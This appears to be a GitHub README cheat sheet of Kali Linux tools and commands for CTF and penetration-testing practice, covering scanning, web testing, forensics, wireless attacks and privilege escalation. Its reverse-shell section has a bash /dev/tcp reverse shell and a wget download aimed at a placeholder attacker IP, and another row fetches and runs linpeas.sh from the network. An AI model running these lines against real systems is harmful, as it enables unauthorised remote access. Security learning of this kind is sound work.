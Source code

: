 # CTF Tools and Commands

---

## 🔥 Kali Linux Tools and Commands

This repository contains a collection of useful tools and commands for Kali Linux, categorized based on their usage in penetration testing, cybersecurity, and ethical hacking.

---

## 📌 Table of Contents

1. [🐧 Basic Linux Commands](#-basic-linux-commands)
2. [🌍 Network Scanning & Enumeration](#-network-scanning--enumeration)
3. [🔓 Web Exploitation Tools](#-web-exploitation-tools)
4. [🕵️‍♂️ Forensics & Steganography](#-forensics--steganography)
5. [📡 Wireless Attacks](#-wireless-attacks)
6. [🎭 Privilege Escalation](#-privilege-escalation)
7. [📂 File Transfer & Reverse Shells](#-file-transfer--reverse-shells)
8. [🎯 Tool Downloads](#-tool-downloads)

---

## 🐧 Basic Linux Commands

These are fundamental Linux commands every Kali Linux user should know.

| Command | Description |
| ------- | -------------------------------- |
| `cd` | Change directory |
| `ls` | List files and directories |
| `pwd` | Print current working directory |
| `cp` | Copy files or directories |
| `mv` | Move or rename files and directories |
| `rm` | Remove files or directories |
| `cat` | View file content |
| `echo` | Print text to terminal or file |
| `chmod` | Change file permissions |
| `chown` | Change file ownership |
| `find` | Search for files and directories |
| `grep` | Search for patterns inside files |

---

## 🌍 Network Scanning & Enumeration

| Tool | Description | Command |
| --------------- | ------------------------------------------ | ------------------------- |
| **Nmap** | Network scanning & vulnerability detection | `nmap [options] [target]` |
| **Netcat** | Network debugging and port scanning | `nc -l -p [port]` |
| **Wireshark** | GUI-based network protocol analyzer | `wireshark` |
| **Tcpdump** | CLI-based network packet capture tool | `tcpdump -i eth0` |
| **Masscan** | Fast port scanner | `masscan -p1-65535 [target]` |

---

## 🔓 Web Exploitation Tools

| Tool | Description | Command |
| -------------- | -------------------------------- | ------------------------ |
| **Burp Suite** | Web security testing framework | `burpsuite` |
| **Nikto** | Web server vulnerability scanner | `nikto -h [target]` |
| **SQLmap** | Automated SQL injection tool | `sqlmap -u [target_url]` |
| **Gobuster** | Directory and file brute-forcing | `gobuster dir -u [URL]` |
| **WFUZZ** | Web application brute-forcing | `wfuzz -c -z file,wordlist.txt --hc 404 [URL]/FUZZ` |

---

## 🕵️‍♂️ Forensics & Steganography

| Tool | Description | Command |
| ------------ | -------------------------------------- | -------------------- |
| **Exiftool** | Extract metadata from images and files | `exiftool [file]` |
| **Binwalk** | Analyze and extract firmware images | `binwalk -e [file]` |
| **Foremost** | File recovery based on headers | `foremost -i [file]` |
| **Steghide** | Hide/extract data in images | `steghide embed -cf image.jpg -ef secret.txt` |
| **Aperisolve** | Online steganography analysis | [🔗 Visit](https://www.aperisolve.com/) |

---

## 📡 Wireless Attacks

| Tool | Description | Command |
| --------------- | ------------------------------------------ | -------------------------- |
| **Aircrack-ng** | Wireless security auditing | `airmon-ng start wlan0` |
| **Kismet** | Wireless network discovery | `kismet` |
| **Reaver** | WPS attack tool | `reaver -i wlan0 -b [BSSID] -vv` |
| **Fern Wifi Cracker** | GUI for wireless auditing | `fern-wifi-cracker` |

---

## 🎭 Privilege Escalation

| Tool | Description | Command |
| --------------- | ------------------------------------------ | -------------------------- |
| **LinPEAS** | Linux privilege escalation checker | `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh` |
| **Windows-Exploit-Suggester** | Windows privilege escalation tool | `python windows-exploit-suggester.py --update` |
| **GTFOBins** | Find binaries useful for privilege escalation | [🔗 Visit](https://gtfobins.github.io/) |

---

## 📂 File Transfer & Reverse Shells

| Command | Description |
| --------------- | ------------------------------------------ |
| `scp file user@host:/path/to/destination` | Securely copy files via SSH |
| `wget http://[attacker_ip]/file -O /tmp/file` | Download a file using wget |
| `nc -lvnp 4444` | Start a netcat listener |
| `bash -i >& /dev/tcp/[attacker_ip]/4444 0>&1` | Reverse shell via Bash |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell to an interactive TTY |

---

## 🎯 Tool Downloads

- **Nmap**: [Download](https://nmap.org/download.html)
- **Wireshark**: [Download](https://www.wireshark.org/download.html)
- **SQLmap**: [Download](https://github.com/sqlmapproject/sqlmap)
- **Steghide**: [Download](http://steghide.sourceforge.net/download.php)
- **Burp Suite**: [Download](https://portswigger.net/burp/communitydownload)

---

## 🤝 Contributing

If you want to contribute, feel free to open an issue or submit a pull request.

💌 Contact: 
[Email](khairulislamtushar33@gmail.com)
[GitHub](https://github.com/Ki6uiPar1na)

---

🚀 **Happy Hacking! Stay Ethical.** 🛡️

